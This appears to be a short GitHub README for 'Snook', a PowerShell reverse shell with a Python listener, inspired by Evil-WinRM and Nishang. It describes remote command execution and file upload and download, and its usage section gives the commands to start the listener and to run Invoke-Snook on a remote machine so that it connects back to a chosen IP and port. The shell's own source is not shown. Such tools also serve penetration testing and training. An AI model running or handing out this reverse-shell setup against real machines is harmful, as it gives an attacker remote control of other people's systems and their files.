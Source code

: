 # Snook
Enhanced PowerShell reverse shell with python listener. This work was inspired by [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) and [Nishang's PowerShell reverse shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

## Dependencies

The python listener needs:

- colorama
- alive-progress

Both can be installed with pip. However, they are not crucial dependencies so if you do not want to install them you can modify the code of snook_listener.py.

The reverse shell has only been tested on PowerShell 5.1.

## Features

- Execute commands
- Download a file from the remote host
- Upload a file to the remote host

## Usage

On your machine, set up the listener:

`python3 snook_listener.py -H <IP> -p <PORT>`

Then run the reverse shell on the remote machine:

`. .\snook.ps1 ; Invoke-Snook <IP> <PORT>`

## TODO

- Add file logging
- Implement tab completion for file path
- Add new cool features
- Check if reverse shell is compatible with other PS versions
